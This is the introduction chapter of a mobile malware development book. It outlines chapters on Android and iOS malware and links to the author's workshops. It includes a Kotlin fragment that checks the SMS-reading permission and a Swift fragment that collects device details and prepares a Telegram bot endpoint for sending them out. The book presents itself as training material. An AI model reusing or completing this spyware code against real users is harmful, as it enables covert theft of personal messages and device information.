 ```yaml
---
header-includes:
 - \usepackage{fvextra}
 - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,commandchars=\\\{\}}
---
```


## 2. mobile malware development intro

In this book I will show you a little about how you can create simple malware on `Android` and `iOS`, and I will show examples and tricks from real malware found in the wild during the years.      

Most of the tutorials in this book require a understanding of the `Kotlin`:    

```kotlin
package cocomelonc.hack.tools

import android.Manifest
import android.annotation.SuppressLint
import android.content.Context
import android.content.pm.PackageManager
import android.net.Uri
import android.provider.Telephony.Sms

class HackSmsLogs (private val context: Context) {
    @SuppressLint("NewApi")
    private fun isSmsPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.READ_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }
    //....
}
```


and `Swift` programming languages:

```swift
import Foundation
import SystemConfiguration.CaptiveNetwork
import Network

public class HackManager {
    public static let shared = HackManager(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private let locationManager = LocationManager()
    private let monitor = NWPathMonitor()

    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }
    
    // collect systeminfo
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
}
```

The book is divided into three logical chapters:    
- Android Malware Development Intro    
- iOS Malware Development Intro    
- Mobile Malware in the Wild    

All material in the book is based on my trainings/workshop from
[Prishtina](https://github.com/cocomelonc/bsprishtina-2024-maldev-workshop/) and [my](https://cocomelonc.github.io/) own articles.    

If you have questions, you can ask them on my [email](mailto:cocomelonkz@gmail.com).    

My Github repo: [https://github.com/cocomelonc](https://github.com/cocomelonc)    